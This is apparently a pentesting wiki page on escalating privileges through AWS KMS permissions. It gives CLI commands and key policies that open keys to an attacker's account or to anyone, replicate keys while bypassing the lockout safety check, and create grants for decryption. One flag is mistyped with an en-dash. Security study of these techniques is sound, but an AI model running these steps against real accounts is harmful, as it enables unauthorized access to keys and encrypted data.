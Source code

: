 # AWS - KMS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## KMS

For more info about KMS check:

{{#ref}}
../aws-services/aws-kms-enum.md
{{#endref}}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

With these permissions it's possible to **modify the access permissions to the key** so it can be used by other accounts or even anyone:

```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```

policy.json:

```json
{
  "Version": "2012-10-17",
  "Id": "key-consolepolicy-3",
  "Statement": [
    {
      "Sid": "Enable IAM User Permissions",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::<origin_account>:root"
      },
      "Action": "kms:*",
      "Resource": "*"
    },
    {
      "Sid": "Allow all use",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::<attackers_account>:root"
      },
      "Action": ["kms:*"],
      "Resource": "*"
    }
  ]
}
```

### `kms:CreateGrant`

It **allows a principal to use a KMS key:**

```bash
aws kms create-grant \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    --grantee-principal arn:aws:iam::123456789012:user/exampleUser \
    --operations Decrypt
```

> [!WARNING]
> A grant can only allow certain types of operations: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)

> [!WARNING]
> Note that it might take a couple of minutes for KMS to **allow the user to use the key after the grant has been generated**. Once that time has passed, the principal can use the KMS key without needing to specify anything.\
> However, if it's needed to use the grant right away [use a grant token](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (check the following code).\
> For [**more info read this**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).

```bash
# Use the grant token in a request
aws kms generate-data-key \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    –-key-spec AES_256 \
    --grant-tokens $token
```

Note that it's possible to list grant of keys with:

```bash
aws kms list-grants --key-id <value>
```

### `kms:CreateKey`, `kms:ReplicateKey`

With these permissions it's possible to replicate a multi-region enabled KMS key in a different region with a different policy.

So, an attacker could abuse this to obtain privesc his access to the key and use it

```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

### `kms:Decrypt`

This permission allows to use a key to decrypt some information.\
For more information check:

{{#ref}}
../aws-post-exploitation/aws-kms-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
